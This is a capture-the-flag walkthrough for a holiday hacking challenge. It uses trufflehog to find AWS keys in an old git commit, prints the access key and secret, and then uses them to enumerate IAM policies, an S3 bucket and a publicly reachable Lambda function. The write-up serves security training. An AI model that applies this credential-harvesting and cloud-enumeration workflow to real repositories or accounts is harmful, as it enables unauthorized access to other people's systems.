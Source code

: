 # OBJECTIVE 5 - Recover the Cloud Ring #
## 5B - Trufflehog Search ##

### OBJECTIVE : ###
>Use Trufflehog to find secrets in a Git repo.  Work with Jill Underpole in the Cloud Ring for hints.  What’s the name of the file that has AWS credentials?
#  

## HINTS: ##
<details>
  <summary>Hints provided for Objective 5B</summary>
  
>-	If you want to look at an older code commit with git, you can `git checkout CommitNumberHere`.
>-	You can search for secrets in a Git repo with `trufflehog git https://some.repo/here.git`.
</details>

#  

## PROCEDURE : ##
First, we use Trufflehog to look through the git repository:
```
~$ trufflehog git https://haugfactory.com/asnowball/aws_scripts.git
```

The first result it gives us indicates that AWS credentials have been detected in a file called **`put_policy.py`** but it’s not in the latest commit.
```
Found unverified result 🐷🔑❓
Detector Type: AWS
Decoder Type: PLAIN
Raw result: AKIAAIDAYRANYAHGQOHD
Line: 6
Commit: 106d33e1ffd53eea753c1365eafc6588398279b5
File: put_policy.py
Email: asnowball <alabaster@northpolechristmastown.local>
Repository: https://haugfactory.com/asnowball/aws_scripts.git
Timestamp: 2022-09-07 07:53:12 -0700 -0700
```

So we can clone the repository using `git clone https://haugfactory.com/asnowball/aws_scripts.git` and have a look at the contents of `put_policy.py` with the commit hash we got from Trufflehog by running `git show 106d33e1ffd53eea753c1365eafc6588398279b5`  inside the `aws_scripts` folder we just cloned.  There we can see the aws access id and key in plaintext.  
```diff --git a/put_policy.py b/put_policy.py
index d78760f..f7013a9 100644
--- a/put_policy.py
+++ b/put_policy.py
@@ -4,8 +4,8 @@ import json
 
 iam = boto3.client('iam',
     region_name='us-east-1',
-    aws_access_key_id=ACCESSKEYID,
-    aws_secret_access_key=SECRETACCESSKEY,
+    aws_access_key_id="AKIAAIDAYRANYAHGQOHD",
+    aws_secret_access_key="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",
```

All we need to do know is configure these credentials by running `aws configure` and running `aws sts get-caller-identity`.
 
From the output we can see that our username is `haug` and we can plug this in the next command to get the list of attached user policies:
```
$ aws iam list-attached-user-policies --user-name haug
```
We now know that our policy’s arn is `arn:aws:iam::602123424321:policy/TIER1_READONLY_POLICY`.

We can use this to get the policy assigned to our user by running:
```
$ aws iam get-policy --policy-arn arn:aws:iam::602123424321:policy/TIER1_READONLY_POLICY
```

Similarly to view the default version of this policy we can use:
```
$ aws iam get-policy-version --policy-arn arn:aws:iam::602123424321:policy/TIER1_READONLY_POLICY --version-id v1
```

Now to list inline user policies associated with the username `haug` we use:
```
$ aws iam list-user-policies –user-name haug
```

With this we see that the policy Name is `S3Perms` and we can use this to retrieve haug’s user policy:
```
$ aws iam get-user-policy –user-name haug –policy-name S3Perms
```

This discloses the name of a S3 bucket called `smogmachines3`.  We can use this to list objects in this bucket by using:
```
$ aws s3api list-objects –bucket smogmachines3
```

To list the lambda privileges that attached user policy is providing us with, we can use:
```
$ aws lambda list-functions
```

This shows us a function called `smogmachine_lambda`.  Let’s see whether this is directly accessible through a public URL:
```
$ aws lambda get-function-url-config --function-name smogmachine_lambda
```

And sure enough – the function is directly accessible from ``https://rxgnav37qmvqxtaksslw5vwwjm0suhwc.lambda-url.us-east-1.on.aws/ ``


 

